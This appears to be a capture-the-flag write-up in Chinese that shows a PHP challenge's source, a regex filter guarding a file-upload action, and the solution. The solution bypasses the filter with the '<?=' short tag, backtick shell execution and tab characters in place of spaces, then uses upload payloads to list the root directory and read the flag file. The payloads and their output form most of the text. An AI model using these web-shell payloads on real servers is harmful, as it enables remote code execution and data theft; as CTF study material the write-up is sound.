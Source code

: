 ![[Pasted image 20230105095843.png|500]]

---
```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

`php`被过滤，使用`php`的`echo`标记简写`<?=`绕过

由于反引号`` ` ``没有被过滤，使用反引号来执行`shell`命令

空格被过滤，使用水平制表符`%09`代替

```php
/?action=pwd
```

```
sandbox/xxx/
```

```php
/?action=upload&data=<?=`ls%09/`?>
```

```php
/sandbox/xxx/
```

```
bin boot dev etc flllllll1112222222lag home lib lib64 media mnt opt proc root run sbin srv start.sh sys tmp usr var 
```

```php
/?action=upload&data=<?=`cat%09/flllllll1112222222lag`?>
```

```php
/sandbox/xxx/
```

```
flag{7fb04787-f42b-4b09-aceb-101738202f79} 
```

#Web #PHP #shell #绕过 #RCE
